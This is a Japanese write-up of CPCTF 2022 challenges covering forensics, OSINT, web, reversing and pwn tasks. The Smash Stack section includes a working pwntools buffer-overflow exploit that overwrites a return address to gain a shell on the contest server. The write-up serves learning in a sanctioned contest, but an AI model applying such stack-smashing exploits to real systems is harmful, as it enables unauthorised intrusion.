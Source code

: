 # CPCTF 2022 Writeup

## 目次

- Forensics
  - [sunset](#sunset)
  - [Dive!](#dive)
  - [deeper](#deeper)
- Misc
  - [Eagle](#eagle)
- OSINT
  - [Welcome to OSINT! 1](#welcome-to-osint-1)
- Web
  - [POST!ME!](#postme)
  - [Robots](#robots)
- Pwn
  - [Smash Stack](#smash-stack)
- Rev
  - [Welcome to reversing](#welcome-to-reversing)
- Shell
  - [Find Image](#find-image)

## sunset

画像ファイルだけあります。とりあえず`exiftool flag.jpg`でEXIF情報を確認するとCommentの欄にフラグがありました。

## Dive!

Docker Imageがあるので問題文にあるように素直に`docker load -i image.tar`してもよいですが、Docker環境を用意していなくて使いたくなかったので`tar xvf image.tar`してから`grep -ril CPCTF`でディレクトリ以下のファイル内に"CPCTF"という文字列を含むファイル名を見つけます。いくつか見つかるので確認するとフラグが手に入ります。

## deeper

ファイルがひとつだけあります。`file flag`で確認するとPNGファイルであることが分かります。画像をピクセル単位で確認しても特に怪しいところはありません。`binwalk -D='.*' flag`をしてみると中にzipファイルが入っていました。zip、gzip、bzip2と解凍するとBase64エンコードされたテキストファイルが出てきます。`cat flag | base64 -d > flag2`という感じでファイルに出力するとzipファイルだったので解凍するとSVGファイルが出てきます。なんか文字が隠されていますが文字列をコピーしてフラグゲット。

## Eagle

zipファイルがあるので解凍してみると特徴的な拡張子のファイルがいくつかあります。拡張子で検索にかけてみると、どうやらEagleとはフリーの基板開発CADソフトウェアらしいということが分かります。フリーなのでEagleをインストールしてもよいですが、面倒なのでオンラインでガーバーファイルを表示できる[Online Gerber Viewer](https://www.gerber-viewer.com/)というものを使って見てみるとフラグがありました。

## Welcome to OSINT! 1

Googleレンズを使うと俺流塩ラーメンっぽいというところまでは分かりますがフラグ形式に当てはめることができるような情報はないです。Google画像検索で検索してみると一致した画像を含むページとしてブログが見つかります。開くとフラグが書いてありました。

## POST!ME!

ソースコードを見てみるとPOSTメソッドを投げるとフラグの前半、DLETEメソッドで後半が得られるようです。curlを使い`curl -X POST https://postme.cpctf.space/ -d '{"password":"pass"}' -H 'Content-Type:application/json'`、`curl -X DELETE https://postme.cpctf.space/`を投げると貰えます。注意点として、HeaderでJSONを正しく指定しないと400が返されてフラグが貰えません。

## Robots

まずrobots.txtとは検索エンジンのクローラにどのURLにアクセスしてよいかを示すものです。`https://chocolatechipcookie.cpctf.space/robots.txt`にアクセスするとフラグがあるURLが書かれており、そこにアクセスするとフラグがあります。

## Smash Stack

retaddrを書き換えてwin関数に飛ばす簡単なBOFを使ったROPです。最初頭が悪くて手元で`gcc vuln.c -o vuln`したセキュリティ機構全装備の実行ファイルを使って上手くいかないなと時間を溶かしまくっていました。サーバーにあるものはセキュリティ機構が外されており、素直にwinに飛ばしてシェルを奪うことができるのでflagが確認できます。

```py
from pwn import *

io = process(['nc', "smash-stack.cpctf.space", "30005"])
io.recvuntil("win: ")
win = io.recvuntil("\n").decode()[:-1]
print(win)
win_addr = eval(f"p64({win})")

buf_size = 32
payload = b"\x00" * (buf_size + 8) + win_addr
io.sendline(payload)

io.interactive()
```

## Welcome to reversing

問題文にあるようにGhidraで見てみます。

```c
  if (((((local_26 == 'C') && (local_1b == 'n')) && (local_28 == 'C')) &&
      (((local_1e == 'r' && (local_24 == 'F')) &&
       ((local_19 == '}' && ((local_22 == 'r' && (local_1c == '1')))))))) &&
     ((local_20 == 'v' &&
      (((((local_1f == '3' && (local_25 == 'T')) && (local_1a == '6')) &&
        ((local_21 == '3' && (local_27 == 'P')))) && ((local_1d == '5' && (local_23 == '{')))))))) {
    puts("Correct!");
```

のようなコードがあるので順に並べるとフラグが手に入ります。

## Find Image

```sh
mkdir image_mnt
sudo mount -t ext4 -o loop image.img ./image_mnt/
```

でマウントします。`新しいフォルダー - コピー (2) - コピー - コピー`のような地獄のようなディレクトリが大量にあるのでとりあえず`tree`すると、`/image_mnt/新しいフォルダー - コピー (4) - コピー/新しいフォルダー (2) - コピー/flag.png`にフラグらしきものがあります。画像を開くとフラグが書いてあります。
